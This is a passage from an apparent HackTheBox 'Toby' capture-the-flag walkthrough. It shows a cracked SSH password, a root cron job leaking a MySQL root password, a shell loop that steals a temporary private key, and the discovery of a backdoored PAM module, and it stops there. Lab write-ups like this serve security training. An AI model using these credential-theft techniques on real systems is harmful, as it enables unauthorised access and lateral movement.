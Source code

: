 ```bash
jack:4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC

1 password hash cracked, 0 left
```

we can connect by ssh using proxychains again (tunelling)

```bash
proxychains ssh jack@mysql.toby.htb
```

### Shell as jack on toby {#jack toby}

Try enumerating on this container again using pspy, we can found there's a cron job where it's look like dumping the database and send data using scp on main host machine

```bash
2021/10/09 10:57:01 CMD: UID=0    PID=52954  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52959  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52965  | sh -c mysqldump wordpress -uroot -pOnlyTheBestSecretsGoInShellScripts > /tmp/tmp.bJUwfFuUOB/backup.txt 
2021/10/09 10:57:01 CMD: UID=0    PID=52966  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52974  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52981  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52987  | scp -o StrictHostKeyChecking=no -i /tmp/tmp.bJUwfFuUOB/key /tmp/tmp.bJUwfFuUOB/backup.txt jack@172.69.0.1:/home/jack/backups/1633777021.txt 
2021/10/09 10:57:03 CMD: UID=0    PID=52988  | runc init
```
when i try to cat /etc/key it's seem "No such file directory" so we need capture the key (before deleted) by create some script

```bash
while :;
    do cat /tmp/*/key 2>/dev/null;
    if [ $? -ne 1 ]; then
        break;
    fi
done
```

and we got the rsa!!

```bash
$ ssh -i id-rsa jack@toby.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-81-generic x86_64)
...[snip]...
jack@toby:~$
```

### Shell as root {#root}

After trying enumeration using LinPeas and pspy we could'nt find anything here,  so after get a nudge if there's a suspicious file on /etc named `.bd` and referring from message before if auth function is broken, i try to grep where `/etc/.bd` file come from 

```bash
$ grep -iR '/etc/.bd' /usr 2>/dev/null

Binary file /usr/lib/x86_64-linux-gnu/security/mypam.so matches
```
